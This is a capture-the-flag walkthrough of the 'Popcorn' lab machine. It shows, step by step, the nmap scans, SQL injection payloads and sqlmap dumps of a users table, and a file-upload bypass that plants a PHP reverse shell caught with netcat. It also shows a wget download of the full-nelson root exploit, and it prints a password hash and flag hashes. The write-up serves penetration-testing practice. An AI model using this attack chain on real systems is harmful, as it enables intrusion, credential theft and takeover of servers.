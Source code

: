 ![](../img/Popcorn Writeups/0_sCXYCHWKlpokLuMx.jpg)

Nmap is a port scanner that is very versatile and is the first tool I use on every CTF. Here is the command that I always use.

`nmap -sS -n -f- v -A <ip addr>`

![](../img/Popcorn Writeups/1_BR3o2Xuv2bP7xSYzsPiCag.png)

Great, we can see that the target machine is running Linux with Apache 2.2.12 as its web server. We can also see SSH, but lets go for the low hanging fruit first. Let’s have a look at what on the website.

![](../img/Popcorn Writeups/1_Tty0uNkMbmHgxzJ0Yr7pgA.png)

Not much, and no hints the source code either. We will have to carry on enumerating. Let’s use dirbuster to perform a dictionary attack, to see if we can find something we can poke at.

![](../img/Popcorn Writeups/1_7WtMC-nF0Ri-aV31f3YsWA.png)

Copy the settings above and then hit start.

![](../img/Popcorn Writeups/1_ITBZLeNOHYxQplz91XV2rQ.png)

Okay it looks like the meat and gravy of the website is hosted under the folder _torrent._ Lets go and navigate to [http://10.10.10.6/torrent/](http://10.10.10.6/torrent/)

![](../img/Popcorn Writeups/1_IuU8AyM2Ipsl45UnAV6kgg.png)

Great, now we have loads of things to poke at. Looks like the website is hosting a torrent hoster. We currently don’t have any login credential so let’s do a basic SQL injection to see if the login panel is vulnerable.

![](../img/Popcorn Writeups/1_MhagR_25rWuWRXbaG1asXg.png)

Here we can see that I’m using the payload, `1' OR '1' = '1` . Hopefully this web server won’t be able to handle the payload. Let’s give it a go.

![](../img/Popcorn Writeups/1_8PThu9zZGEBKLYInZWgXJQ.png)

Well, we definatly caused an error. Let’s try and leverage this error and exploit the backend MySQL database. I will be using SQLmap to do this. First let’s find out what POST parameters are being sent when we sent that last request.

![](../img/Popcorn Writeups/1_7oWcN5ETRaleLS4WwBeIFw.png)

We can see that we sent the username and password parameter. Cool, now let’s just shove everything into SQLmap.

`sqlmap -u [http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php) --data="password=test&username=test" --method POST --dbms MySQL --thread=5`

![](../img/Popcorn Writeups/1_QVqfebi7EdrSt0eA1rkrog.png)

Great the target is vulnerable to SQL injection. Let’s find out what tables they have.

`sqlmap -u [http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php) --data="password=test&username=test" --method POST --dbms MySQL --thread=5 --tables`

![](../img/Popcorn Writeups/1_So_jz26YcZbVh3EosGwYQw.png)

This is a no brain-er, we want to select the **users** table in the **torrenthoster **database.

`sqlmap -u [http://10.10.10.6/torrent/login.php](http://10.10.10.6/torrent/login.php) --data="password=test&username=test" --method POST --dbms MySQL --thread=5 -T users -D torrenthoster`

![](../img/Popcorn Writeups/1_Ky6nwHyjhJPGKq3GlI5I4w.png)

The data does not look right, it looks like it has been shuffled and duplicated. Either way can see that the username is Admin or admin and this user has the hash d5bfedcee289e5e05b86daad8ee3e2e2. Look’s like a MD5 hash but let’s double check with hash-identifier.

![](../img/Popcorn Writeups/1_cDnctLeMvD4_XsfdFoL4Bw.png)

Now let take the easy option and try and use some online databases to see if the password has already been cracked.

![](../img/Popcorn Writeups/1_QSe_sGL3-92njy9QO8rWQw.png)

No luck. I tried a few sites as well. There is not much point trying to manually crack this hash as it’s a CTF and if someone had cracked it it’d be on one the online databases. I think that this is a dead end. I tried running the os-pwn SQLmap option as well but could not find any writable directories. Back to square one.

Okay let’s create an account using the website, log in and then carry on poking around. Here we can see an upload button. Upload button are ideal candidate to start trying to exploit because they accept user input and allow you to upload things that the developer did not intent for you to upload.

![](../img/Popcorn Writeups/1__SfiFK_djTwKDB5NhlR2NQ.png)

When I do anything like, I like to connect Burp Suite to my browser so I can see what is happening behind the scenes. I tried uploading a gif, but the server requires that the you upload a torrent file. So then I tried changing the extension, but still got the same error message.

![](../img/Popcorn Writeups/1_1qtTA0TrqV5PDWsYUPqxrw.png)

In the end I just uploaded a random torrent file that I got off the internet. Then when I clicked to the browse button. I navigated to the torrent file that I just uploaded.

![](../img/Popcorn Writeups/1_kmcYmV5nHVXJRI9olqBZkw.png)

We can see that we now get the option to upload a screenshot for the torrent. Looks like we will try again at uploading a shell but via this up-loader instead. We can see that we have the allowed extensions of `jpg, jpeg, gif, png` . So let’s just write some test PHP code and try to upload it. Below you can see the dangerous payload.

`<?php echo '<p>Hello World</p>'; ?>`

You have to make sure that you change Content-Type to image/png for this to work and that the file extension is a php.

![](../img/Popcorn Writeups/1_on4Uyi7bygg9-tZNKU5oxg.png)

Look’s like it worked.

![](../img/Popcorn Writeups/1_TOKno_eg2kp66y-eB8Zi6w.png)

Now we have to try and find were the image is stored on the webserver. When we ran Dirbuster there was a folder called uploads. That looks like it should be the right place.

![](../img/Popcorn Writeups/1_O6Vc33Q5nCGZaCF_w4Ryaw.png)

The website changed the name of my file, but we can still execute the PHP by clicking it. How exciting.

![](../img/Popcorn Writeups/1_3LKR2jqT-DBT6cnpQRxqqw.png)

Now let’s try a real payload. I will be using Pentest Monkeys reverse PHP code. You can grab it online or if you’re using kali it can be found at:

- /usr/share/webshells/php/php-reverse-shell.php

Let’s just modify the the hard-coded IP address and port. Then upload this instead of the hello world payload.

![vim /usr/share/webshells/php/php-reverse-shell.php](../img/Popcorn Writeups/1_bRtUTJHrN-tvQcB4HIQH1w.png)

Start a listener then click on the PHP that we just uploaded. We should get a reverse connection to our netcat listener.

`nc -vlnp 1234`

![](../img/Popcorn Writeups/1_J4YwVzwbJPKt7DDvhUdM1A.png)

We now have reverse shell running as the web daemon for the user. By printing the `/etc/passwd` file we can see that `george` is the account that we probably want to get into if we cannot jump straight to root.

![](../img/Popcorn Writeups/1_KHOh7b_9v4ifqSL23zEqiA.png)

To get the first flag, we just have to go to George's home directory and print out the user.txt file to get the hash 5e36a919398ecc5d5c110f2d865cf136.

![](../img/Popcorn Writeups/1_cMC2NokLqkxoPom0yMKD8A.png)

Get root was quite trivial as we can use a well known exploit call full-nelson. To do this we need to get the c code for the exploit onto the target machine. There are plenty of ways to do this. You could transfer the file over netcat. But I prefer to localy host a webserver on my kali box with the command `service apache2 start` . Then place the exploit in the web directory `/var/www/html/exploit.c` . Next just download the file from the target machine with `wget http://<ip addr>/exploit.c` , compile it then run it.

![](../img/Popcorn Writeups/1_yhvV9u0ig8Vx81V1tlWoDQ.png)

Great now we have the final

f122331023a9393319a0370129fd9b14